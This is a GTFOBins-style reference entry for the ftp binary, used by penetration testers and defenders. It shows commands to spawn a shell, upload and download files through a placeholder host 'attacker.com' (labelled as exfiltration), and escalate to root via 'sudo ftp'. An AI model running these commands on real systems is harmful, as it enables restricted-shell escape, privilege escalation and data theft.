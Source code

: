 # GTFOBin: ftp

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
ftp
!/bin/sh
```

## File upload

It can exfiltrate files on the network.

Send local file to a FTP server.

```
RHOST=attacker.com
ftp $RHOST
put file_to_send
```

## File download

It can download remote files.

Fetch a remote file from a FTP server.

```
RHOST=attacker.com
ftp $RHOST
get file_to_get
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo ftp
!/bin/sh
```